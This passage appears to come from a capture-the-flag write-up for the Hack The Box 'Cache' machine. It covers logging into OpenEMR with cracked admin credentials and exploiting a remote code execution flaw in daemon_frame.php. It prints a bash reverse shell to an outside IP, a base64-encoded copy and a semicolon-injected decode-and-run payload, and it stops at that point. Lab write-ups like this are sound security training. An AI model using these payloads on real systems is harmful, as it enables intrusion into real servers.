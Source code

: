 We successfully crack the hash and now have credentials: (`openemr_admin`:`xxxxxx`). Let us verify that these credentials work by logging in as an administrator.

![Login as admin](/assets/htb/Cache/openemr-admin-login.png)

We successfully login using the credentials and can now start enumerating for a way to get a shell.

# Initial shell

Now that we have credentials, we can start exploiting OpenEMR to get a shell. In the [vulnerability report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf) in the section `6.0 - Remote Code Execution`, we can find multiple exploits to get a shell on the system.

### Way 1: Manual exploitation

Checking back to the vulnerability report, in section `6.4 - RCE in daemon_frame.php`, we can find a RCE, which allows us to get code-execution, by simply changing the `hylafax_server variable` and then visiting `daemon_frame.php`.



First we need to set the variable, by going to http://hms.htb/interface/super/edit_globals.php. We set the `Hylafax Server variable` to be a bash reverse-shell:

```bash
echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC80NDMgMD4mMSc=
```

We then create a payload out of this reverse-shell:

```bash
; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC80NDMgMD4mMSc= | base64 -d | bash
```
